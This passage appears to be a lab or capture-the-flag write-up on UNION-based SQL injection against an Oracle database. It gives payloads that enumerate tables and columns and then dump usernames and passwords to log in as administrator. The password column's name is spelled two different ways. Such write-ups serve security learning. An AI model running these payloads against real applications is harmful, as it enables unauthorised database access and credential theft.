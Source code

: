 ![[Pasted image 20220825151205.png]]

#### Database Table Enumeration
Since we know it is Oracle DB, we will use payloads unique to Oracle DB based on its [documentation](https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286) : 

```
' UNION SELECT table_name,tablespace_name FROM all_tables--
```

- The payload above, will list all the tables that are in the database.

![[Pasted image 20220825152325.png]]

- As can be seen below, there is a non-default table `USERS_VDYLFP`.

![[Pasted image 20220825154548.png]]

#### Column Enumeration of Table
We then follow this [all_tab_column documentation](https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm) to enumerate columns in the table we found.

```
' UNION SELECT column_name,data_type FROM all_tab_columns WHERE table_name = 'USERS_VDYLFP' --
```

- As can be seen there are two interesting columns `USERNAME_CNBWLE` and `PASSWORD_PQFZP`

![[Pasted image 20220825154659.png]]![[Pasted image 20220825154713.png]]

### Exploitation
- Now it is time to leak the rows in the columns which we will use the following query : 

```
' UNION SELECT USERNAME_CNBWLE,PASSWORD_PVQFZP FROM USERS_VDYLFP--
```

- Administrator username and password is found and we log in to the account to complete the challenge.

![[Pasted image 20220825155103.png]]
![[Pasted image 20220825155201.png]]